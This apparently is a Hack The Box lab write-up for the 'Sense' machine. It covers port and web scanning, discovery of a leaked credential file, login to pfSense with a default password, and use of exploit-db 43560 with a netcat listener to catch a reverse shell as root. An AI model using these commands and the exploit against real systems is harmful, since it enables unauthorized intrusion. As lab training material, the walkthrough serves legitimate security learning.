






# [Sense](https://app.hackthebox.eu/machines/111)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.60 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.60 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.60
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.60
```

The TCP quick scan returns the following:



Start the following web scanners:

```bash
nikto -h http://10.10.10.60/ -C all --maxtime=120s --output=nikto.http.txt
nikto -h https://10.10.10.60/ -C all --maxtime=120s --output=nikto.https.txt
```

The HTTP site redirects to the HTTPS site with the following:



Browse to the sites manually:

```bash
firefox http://10.10.10.60/  &
firefox https://10.10.10.60/ &
```


This looks like a standard login page for [pfsense](https://www.pfsense.org/). The default login is `admin/pfsense`, which does not work. Trying some other basic logins also does not work. Looking at the page source does not show much to help ID a version for exploit searching? Start a directory scanner looking for PHP files since the HTML source contains references to PHP files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -k -r -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u https://10.10.10.60/ &
```

The full `nmap` scan returns an interesting file:



Maybe `changelog.txt` will help ID a version? Browsing to it shows the following text:

```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

This looks custom. It seems like there may be a vulnerability left unpatched in the firewall? Try looking for an exploit:

```
searchsploit pfsense
```



Looking through these does not have many winners... Most need valid credentials for an exploit and others need an active admin on the site to click on a malicious link to get RCE. Maybe there are other interesting TXT files on the target since `change-log.txt` was found:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -k -r -q -z -o gobuster.text.txt -x txt \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u https://10.10.10.60/ &
```

This returns some new results:

```
/changelog.txt (Status: 200)
/tree (Status: 200)
/installer (Status: 200)
/system-users.txt (Status: 200)
```

`system-users.txt` looks interesting:

```
####Support ticket###

Please create the following user

username: Rohit
password: company defaults
```

This looks helpful! Trying to login with the user `rohit` with a few default passwords does not seem to work? Maybe "company defaults" means "website defaualts"? Trying `rohit/pfsense` results in a login:



The page gives the pfsense version as `2.1.3`. From the original exploit list, exploit 43560 now looks promising:

- https://www.exploit-db.com/exploits/43560

The code sends a basic Python reverse shell through command injection with `status_rrd_graph_img.php`. Set up a listener and use the exploit:

```bash 
rlwrap nc -nvlp 6969
searchsploit -m 43560
python3 43560.py --username rohit --password pfsense --rhost 10.10.10.60 --lhost 10.10.14.27 --lport 6969
```

And this returns a shell as `root`:



